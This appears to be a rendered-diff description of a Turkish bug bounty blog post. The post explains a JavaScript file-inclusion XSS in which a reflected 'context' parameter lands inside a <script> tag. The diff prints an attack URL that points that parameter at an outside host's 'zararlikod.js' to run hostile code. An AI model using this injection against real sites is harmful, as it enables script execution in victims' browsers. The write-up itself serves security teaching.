

Before and after one commit to sametsahinnet/netwebsite, a Jekyll site: the page built from _posts/2019-07-12-javascript-file-inclusion-via-simple-link-injection-xss.md, in a window 1280 px wide and 1400 px high, scrolled down 631 px. Shown: the top 1337 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2019-07-12-javascript-file-inclusion-via-simple-link-injection-xss.md
+++ b/_posts/2019-07-12-javascript-file-inclusion-via-simple-link-injection-xss.md
@@ -18,7 +18,7 @@ excerpt: 'Javascript File Inclusion (XSS) via a Simple Link Injection'
 
 Merhaba arkadaşlar, ben Samet ŞAHİN.
 
-HackerOne (https://hackerone.com/) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim.
+HackerOne ( <a href="https://hackerone.com/">https://hackerone.com/</a> ) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim.
 
 <img src="/images/LinkInjectionBlogPost.PNG">
 
@@ -27,7 +27,7 @@ Sıradan bir XSS araştırmasında tüm girdilere (input) XSS saldırı kodları
 Yani buradan bir #bugbountytip çıkarak olursak : "Sitenin ne işe yaradığını sorgula ve nasıl bozarım diye düşün."
 
 Ufak bir trickten sonra açığımıza geri dönelim. Kaynak kodunu okumuş ve "context" isimli bir girdi etiketinin varlığını anlamıştık. Şimdi eğer daha önce çok eski sitelere **Recognize** veya **Hacking** uyguladıysanız sitenin gerçekten çalışıp çalışmadığını kontrol etmelisiniz. Hadi gelin kontrol edelim. Link'in sonunda `?context=sametsahin` yazıyorum ve kaynak koduna nerelere ve nasıl yansıdığını inceliyorum.
-> URL : https://127.0.0.1/blablabla/index.html?context=sametsahin
+> URL : <a href="https://127.0.0.1/blablabla/index.html?context=sametsahin">https://127.0.0.1/blablabla/index.html?context=sametsahin</a>
 
 <img src="/images/LinkInjectionBlogPost2.PNG">
 
@@ -41,7 +41,7 @@ Yukarıdaki resimde HTML ve JavaScript için hayati önem arz eden `<script>` et
 > Eğer benden aldığı değeri direkt olarak `<script>` etiketinin içine yerleştiriyor ise ben bu değeri bir kontrolümdeki site adresiyle değiştirip o sitedeki /javascript.js dosyasının içeriğini zararlı kodlar (payload) ile doldurarak XSS açığına erişebilirim.
 
 Bu durumda XSS açığına sebep olan URL adresimiz şu şekilde gözükecektir.
-> URL : https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?
+> URL : <a href="https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?">https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?</a>
 
 <img src="/images/LinkInjectionBlogPost3.png">
 
```
